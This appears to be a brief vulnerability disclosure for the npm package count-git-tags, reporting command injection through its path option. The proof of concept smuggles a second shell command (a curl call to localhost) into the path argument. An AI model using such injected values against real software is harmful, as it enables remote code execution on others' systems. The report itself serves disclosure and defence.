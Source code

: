 # Description
The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check. The issue arises here: https://github.com/aichbauer/node-count-git-tags/blob/master/index.js#L27

# POC

```js
// poc.js
const countGitTags = require('count-git-tags');
 
countGitTags({ path: '.git;curl "http://localhost/RCE"' });
```

# Impact

`RCE` on `count-git-tags` via `insecure command formatting`

